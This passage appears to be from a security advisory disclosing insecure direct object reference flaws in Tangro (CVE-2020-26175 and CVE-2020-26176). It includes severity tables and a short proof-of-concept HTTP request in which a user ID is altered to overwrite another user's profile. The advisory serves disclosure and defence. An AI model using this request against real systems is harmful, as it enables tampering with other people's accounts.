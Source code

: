 Server response:

```
HTTP/1.1 200 OK
Pragma: no-cache 
Expires: -1 
Content-Type: text/plain; charset=utf-8 Cache-Control: no-cache 
Connection: close 
Date: Thu, 17 Sep 2020 09:38:48 GMT

XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

## Profile Attributes of Other Users Writable

| Key | Value |
|---|---|
| Vulnerability Type | Insecure Direct Object Reference |
| CVSSv3 Severity | AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N (Score 6.5) |
| CWE Reference | CWE-639 |
| CVE Reference | CVE-2020-26175 |

### Overview

The value of "PERSON" in requests to `/api/profile` can be manipulated in order to change profile information of other users.

### Proof of Concept

```
POST /api/profile HTTP/1.1 
Host: <Tangro Host>

-- SNIP --
{ 
    "DESCRIPTION":"", 
    "ADDRESS_NAME1":"<Name>",
-- SNIP --
"PERSON":"1234", # By manipulating this ID, it is possible to change the profile information of other users.
"BIRTHDAY":"0000-00-00", "MANDT":"XXX"
```

## Unauthorised Listing of Attachments

| Key | Value |
|---|---|
| Vulnerability Type | Insecure Direct Object Reference |
| CVSSv3 Severity | AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N (Score 4.3) |
| CWE Reference | CWE-639 |
| CVE Reference | CVE-2020-26176 |

